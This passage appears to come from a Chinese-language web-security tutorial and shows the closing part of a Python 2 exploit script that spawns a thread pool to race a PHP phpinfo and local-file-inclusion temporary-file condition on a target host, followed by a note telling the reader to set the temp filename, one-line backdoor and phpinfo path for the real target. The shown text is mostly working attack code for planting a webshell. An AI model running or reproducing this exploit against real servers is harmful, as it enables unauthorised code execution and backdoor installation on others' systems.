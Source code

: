 				poolsz=10
				try:
					poolsz = int(sys.argv[3])
				except IndexError:
					pass
				except ValueError, e:
					print "Error with poolsz %d: %s" % (sys.argv[3], e)
					sys.exit(1)

				print "Getting initial offset...",  
				reqphp, tag, reqlfi = setup(host, port)
				offset = getOffset(host, port, reqphp)
				sys.stdout.flush()

				maxattempts = 1000
				e = threading.Event()
				l = threading.Lock()

				print "Spawning worker pool (%d)..." % poolsz
				sys.stdout.flush()

				tp = []
				for i in range(0,poolsz):
					tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

				for t in tp:
					t.start()
				try:
					while not e.wait(1):
						if e.is_set():
							break
						with l:
							sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
							sys.stdout.flush()
							if counter >= maxattempts:
								break
					print
					if e.is_set():
						print "Woot!  \m/"
					else:
						print ":("
				except KeyboardInterrupt:
					print "\nTelling threads to shutdown..."
					e.set()
				
				print "Shuttin' down..."
				for t in tp:
					t.join()

			if __name__=="__main__":
				main()
			```
			+ 其中临时文件名、一句话后门及phpinfo文件位置按实际修改即可,临时文件位置可根据$_file得到：
			
			![Alt text](/style/image/image65.png)
			![Alt text](/style/image/image66.png)
